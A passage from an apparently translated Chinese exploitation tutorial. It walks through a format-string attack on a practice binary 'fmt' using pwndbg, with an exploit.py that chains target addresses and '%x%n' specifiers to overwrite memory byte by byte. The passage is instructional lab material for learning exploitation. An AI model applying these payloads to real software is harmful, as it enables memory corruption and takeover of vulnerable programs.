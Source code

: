 由此可知，该值已更改为`0x00000018`。当`printf`以 format sting 值`%n`作为参数执行时，它打印出一个 32 位的长度值，该值等于目前打印的字节数。到目前为止，程序已经打印了 18 个字节。

15.  现在，我们可以编写攻击代码来制作有效负载。为此，创建一个`exploit.py`文件并在编辑器中打开它。
16.  然后在其中添加以下代码：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

这里，我们为应用程序创建一个有效负载。这将作为写入内存位置的输入提交。因此，生成 32 位字的最佳方法是执行四次写入，每次写入的目标是一个字节，然后将它们组合起来。

17.  确保利用漏洞代码具有执行权限：

```
chmod +x exploit.py    
```

18.  现在，我们可以使用此负载在调试器中运行应用程序。这正是我们以前所做的：

```
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)  
```

19.  检查内存位置：

```
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](../images/00120.jpeg)

然后该值变为`0x4c443c34`

20.  让我们尝试更改有效负载中的一个字节。为此，将第三个格式字符串参数`%x`更改为`%16x`。这将向其添加 16 个前导零，使其长度为 16 字节：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%16x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

21.  然后在调试模式下运行应用程序并检查内存中的值：
